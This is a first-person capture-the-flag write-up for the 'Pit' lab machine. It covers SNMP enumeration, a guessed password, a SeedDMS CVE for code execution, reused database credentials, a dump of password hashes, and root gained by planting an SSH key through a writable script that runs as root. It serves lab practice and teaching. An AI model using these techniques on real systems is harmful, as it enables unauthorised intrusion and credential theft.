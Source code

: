 ## Info
### Credential
 User   | Password    | Service     | Note
--------|-------------|-------------|-------
michelle|michelle     |SeedDMS      |
jack    |             |SeedDMS      |
root    |             |             |
seeddms |ied^ieY6xoquu|MySQL,Cockpit|

### System
- hostname: `pit.htb`, `dms-pit.htb`

### Web (80)
**dms-pit.htb**
- `/seeddms51x/seeddms/`
- Version: `5.5.15` (by the CHANGELOG)
- DB Info: `dbDriver="mysql" dbHostname="localhost" dbDatabase="seeddms" dbUser="seeddms" dbPass="ied^ieY6xoquu"`

### HTTPS (9090)
- Found hostname `pit.htb` on the page

### SNMP (161/udp)
- `snmpv1.snmpwalk`

### Local
- 3306/tcp MySQL 5.5.5-10.3.28-MariaDB


## Path
### Foothold 
**SNMP**
1. Enumerating, walking, and, googling for so long on port `80` and `9090`, but found nothing. So I moved on to scan UDP ports and found port `161` opened, which ran a SNMP server.
2. Followed the SNMP page on hacktricks, I retrieved the user list and found username `michelle` and `root`. But beyond that, there were nothing I can found.
```
$ snmpwalk -v 1 -c public $ip NET-SNMP-EXTEND-MIB::nsExtendOutputFull
...
Login Name           SELinux User         MLS/MCS Range        Service

__default__          unconfined_u         s0-s0:c0.c1023       *
michelle             user_u               s0                   *
root                 unconfined_u         s0-s0:c0.c1023       *
```
3. So I went on to the forum searching for some nudges, and a lot people metioned the official twitter post. The post reads:
> To find your way to the Pit you need to WALK.
For me, WALK seemed to mean we needed to *walk* through the MIB tree (hierarchy), and in the dump of MIBs, there was some OIDs, so I started to walking through those OIDs. The OIDs and the their meaning were showing as follow. Use [this website](http://www.oid-info.com/cgi-bin/display) to find the meaning.
```
# snmp/10.10.10.241.snmp
...
.1.3.6.1.2.1.1.9.1.2.1 = OID: .1.3.6.1.6.3.10.3.1.1
.1.3.6.1.2.1.1.9.1.2.2 = OID: .1.3.6.1.6.3.11.3.1.1
.1.3.6.1.2.1.1.9.1.2.3 = OID: .1.3.6.1.6.3.15.2.1.1
.1.3.6.1.2.1.1.9.1.2.4 = OID: .1.3.6.1.6.3.1         # SNMP SNMP-MIB
.1.3.6.1.2.1.1.9.1.2.5 = OID: .1.3.6.1.6.3.16.2.2.1
.1.3.6.1.2.1.1.9.1.2.6 = OID: .1.3.6.1.2.1.49        # TCP
.1.3.6.1.2.1.1.9.1.2.7 = OID: .1.3.6.1.2.1.4         # IP
.1.3.6.1.2.1.1.9.1.2.8 = OID: .1.3.6.1.2.1.50        # UDP
.1.3.6.1.2.1.1.9.1.2.9 = OID: .1.3.6.1.6.3.13.3.1.3  # 
.1.3.6.1.2.1.1.9.1.2.10 = OID: .1.3.6.1.2.1.92       # NotificationLogMIB: The MIB module for logging SNMP Notifications, that is, Traps and Informs.
```
4. While looking at the forum discussion, someone pointed out that `snmpwalk` can output more detailed information, so I looked into the help info and tried to build a full output search. And it worked! It found a page in the `/var/www/html`! Visited `http://dms-pit.htb/seeddms51x/seeddms`, it was a SeedDMS login page. Big step!!
```
$ snmpwalk -v 1 -c public -P ud -O at -I r -Cc $ip .1
...
iso.3.6.1.4.1.2021.9.1.2.2 = STRING: "/var/www/html/seeddms51x/seeddms"
```
**SeedDMS**
5. User `michelle` has the password `michelle`. It is just guessing.
6. SeedDMS had CVE-2019-12744, but some argument were changed. `folderid=8` and `/seeddms51x/data/1048576`. Change this, then got RCE. But the machine appeared to have restrict us connecting to other machines, so we can't get a easy reverse shell :( .
7. By looking around, I found DB credential in `settings.xml`. 
**Cockpit**
8. By trying, I found the password of user `michelle` on `pit.htb:9090` was the password found in `settings.xml`: `ied^ieY6xoquu`.
9. Then I added my public key to michelle using Cockpit, and logged in. Gain user!
### Root
1. `PATH` env variable looks weird.
```
PATH=/home/michelle/.local/bin:/home/michelle/bin:/home/michelle/.local/bin:/home/michelle/bin:/home/michelle/.local/bin:/home/michelle/bin:/usr/local/bin:/usr/bin:/usr/local/sbin:/usr/sbin
```
2. Found the machine had `nmap`, so use `nmap` to scan localhost, and it showed `3306` and `199` port were open.
```
199/tcp  open  smux            syn-ack Linux SNMP multiplexer
3306/tcp open  mysql           syn-ack MySQL 5.5.5-10.3.28-MariaDB
| mysql-info:
|   Protocol: 10
|   Version: 5.5.5-10.3.28-MariaDB
|   Thread ID: 5542
|   Capabilities flags: 63486
|   Some Capabilities: SupportsLoadDataLocal, ODBCClient, Support41Auth, ConnectWithDatabase, InteractiveClient, IgnoreSpaceBeforeParenthesis, SupportsCompression, Speaks41ProtocolOld, DontAllowDatabaseTableColumn, SupportsTransactions, IgnoreSigpipes, FoundRows, LongColumnFlag, Speaks41ProtocolNew, SupportsAuthPlugins, SupportsMultipleResults, SupportsMultipleStatments
|   Status: Autocommit
|   Salt: NqoYO^n.9oI^yi$s:ft3
|_  Auth Plugin Name: 94
```
3. While searching, I found a lot `nmap` script about MySQL were on the machine, even specifically mentioned CVE-2012-2122, so this was obviously the path to take. But turned out to be NO.
```
/usr/share/nmap/scripts/mysql-audit.nse
/usr/share/nmap/scripts/mysql-brute.nse
/usr/share/nmap/scripts/mysql-databases.nse
/usr/share/nmap/scripts/mysql-dump-hashes.nse
/usr/share/nmap/scripts/mysql-empty-password.nse
/usr/share/nmap/scripts/mysql-enum.nse
/usr/share/nmap/scripts/mysql-info.nse
/usr/share/nmap/scripts/mysql-query.nse
/usr/share/nmap/scripts/mysql-users.nse
/usr/share/nmap/scripts/mysql-variables.nse
/usr/share/nmap/scripts/mysql-vuln-cve2012-2122.nse
/usr/share/nmap/nselib/data/mysql-cis.audit
/usr/share/nmap/nselib/mysql.lua
```
4. The credential found before, `seeddms:ied^ieY6xoquu`, can be used to login to MySQL. And get the credentials.
```
MariaDB [seeddms]> select login, pwd, fullName, email from tblUsers;
+----------+----------------------------------+---------------+------------------+
| login    | pwd                              | fullName      | email            |
+----------+----------------------------------+---------------+------------------+
| admin    | 155dd275b4cb74bd1f80754b61148863 | Administrator | admin@pit.htb    |
| guest    | NULL                             | Guest User    | NULL             |
| michelle | 2345f10bb948c5665ef91f6773b3e455 | Michelle      | michelle@pit.htb |
| jack     | 682d305fdaabc156430c4c6f6f5cc65d | Jack          | jack@dms-pit.htb |
+----------+----------------------------------+---------------+------------------+
```
5. After another long long search, I found `monitor` looks really suspicios. And we had extend ACLs on `/usr/local/monitoring`. Because `michelle` was able to write and execute in `monitoring/` and NET-SNMP-EXTEND-MIB was running as root, I used it to gain root.
```
$ cat /usr/bin/monitor 
#!/bin/bash

for script in /usr/local/monitoring/check*sh
do
    /bin/bash $script
done
$ $ getfacl monitoring/
# file: monitoring/
# owner: root
# group: root
user::rwx
user:michelle:-wx
group::rwx
mask::rwx
other::---
```
6. Add public to `root`. Gain root.
```
michelle$ cat << EOF > /usr/local/monitoring/check_ice.sh
echo <public key> >> /root/.ssh/authorizied_keys
EOF

local$ snmpwalk -v 1 -c public $ip NET-SNMP-EXTEND-MIB::nsExtendObjects 
local$ ssh -i id_rsa root@$ip
[root@pit ~]# whoami
root
```

